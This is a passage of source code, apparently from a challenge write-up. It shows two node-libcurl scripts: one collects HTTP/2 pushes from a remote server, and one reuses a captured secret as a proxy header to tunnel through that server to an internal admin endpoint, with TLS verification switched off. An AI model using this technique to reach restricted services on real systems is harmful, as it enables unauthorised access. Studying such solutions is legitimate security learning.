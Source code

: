 ```js
    console.log("||-> unknown file - denying push");
    return CurlPush.Deny;
  }
);

process.on("exit", () => {
  multi.close();
});

const handle = new Easy();
handle.private = {};
handle.setOpt("URL", "https://146.56.228.227/");
handle.setOpt("SSL_VERIFYPEER", false);
handle.setOpt("FOLLOWLOCATION", true);
handle.setOpt("HTTP_VERSION", CurlHttpVersion.V2Tls);
handle.setOpt("VERBOSE", true);
handle.setOpt("WRITEFUNCTION", function onData(data, n, nmemb) {
  let existingData = handlesData.get(this);

  if (!existingData) {
    existingData = [];
    handlesData.set(this, existingData);
  }

  existingData.push(data);

  return n * nmemb;
});

multi.addHandle(handle);
```

`accessAdmin.js`

```js
const { Curl, CurlHttpVersion } = require("node-libcurl");
const fs = require("fs");

const curl = new Curl();
const fileContent = fs.readFileSync("./result.out").toString();
const secret = fileContent.match(/([a-zA-Z0-9]{10}) !/)[1];

curl.setOpt("URL", "http://0.0.0.0:8080/");
curl.setOpt("SSL_VERIFYPEER", 0);
curl.setOpt("SSL_VERIFYHOST", 0);
curl.setOpt("PROXY_SSL_VERIFYPEER", 0);
curl.setOpt("PROXY_SSL_VERIFYHOST", 0);
curl.setOpt("HTTP_VERSION", CurlHttpVersion.V2_0);
curl.setOpt("PROXY", "https://146.56.228.227:443/");
curl.setOpt("PROXYHEADER", [`Secret: ${secret}`]);
curl.setOpt("REFERER", "http://146.56.228.227/");
curl.setOpt("HTTPPROXYTUNNEL", 1); // 我因为没设置这个参数失败了几个小时...
curl.setOpt("FOLLOWLOCATION", true);
curl.setOpt("VERBOSE", 1);

curl.on("end", function (statusCode, data, headers) {
  console.info(statusCode);
  console.info(headers);
  console.info("---");
  console.info(data);
  console.info("---");
  console.info(this.getInfo("TOTAL_TIME"));

  this.close();
```